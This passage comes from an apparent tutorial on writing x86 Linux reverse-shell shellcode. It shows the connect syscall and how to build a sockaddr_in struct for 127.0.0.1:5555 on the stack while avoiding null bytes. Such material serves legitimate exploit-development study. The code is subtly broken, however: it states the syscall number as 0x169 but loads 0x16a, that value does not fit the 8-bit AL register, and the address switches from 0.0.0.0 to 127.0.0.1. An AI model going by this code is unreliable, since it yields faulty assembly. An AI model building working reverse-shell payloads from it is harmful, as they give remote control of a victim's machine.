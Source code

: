```nasm
    mov edi, eax
```

## Connect Syscall

First thing we want to do here is clear out EAX so that we can put the value of our connect call into the lower part of the register as we did above with socket. `cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep connect` gives us a value of 362 which is `0x169`

Let's make these changes to our code

```nasm
    xor eax, eax
    mov al, 0x16a
```

Now we need to consult `man 2 connect` to figure out the structure of the arguments this syscall requires. The result is `int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);`

These arguments can be summarized at a high-level as follows: 
+ `int sockfd` -- this is a reference to the socket we just created, this is why we moved EAX into EDI 
+ `const struct sockaddr *addr` -- this is a pointer to the location on the stack of the sockaddr struct we are going to create
+ `socklen_t addrlen` -- this is the length of the address which the `/usr/include/linux/in.h` file tells us is 16

Let's start with satisfying the `int sockfd` argument. 

```nasm
    mov ebx, edi
```

Now, let's start creating our sockaddr struct on the stack. A [sockets programming tutorial](http://home.iitk.ac.in/~chebrolu/scourse/slides/sockets-tutorial.pdf) tells us that the sockaddr_in struct for the connect syscall consists of the following 4 components:
+ AF_INET
+ Port Number
+ Internet address (IP)
+ 0

Let's start moving these values into the registers. Our port number will be 5555 and our internet address will be 0.0.0.0

Because the stack grows from High to Low, we will have to place these arguments onto the stack in reverse order. We will also have to put our port number in Little Endian format, so instead of `0x15b3`, we will place `0xb315` onto the stack. We will also have to push our IP address onto the stack in reverse order so instead of `127.0.0.1`, we will require `1.0.0.127`. First let's push our 0 onto the stack with a cleared out ECX.

```nasm
    xor ecx, ecx
    push ecx
```

Now it's time to confront the NULL BYTE demon. We want to push `1.0.0.127` onto the stack but we cannot call 0's explicitly as this will result in NULL BYTEs in our shellcode. A work around can be to move `2.1.1.128` into a register and then subtract `1.1.1.1` from the register to end up at our desired `1.0.0.127`. Let's do that now.
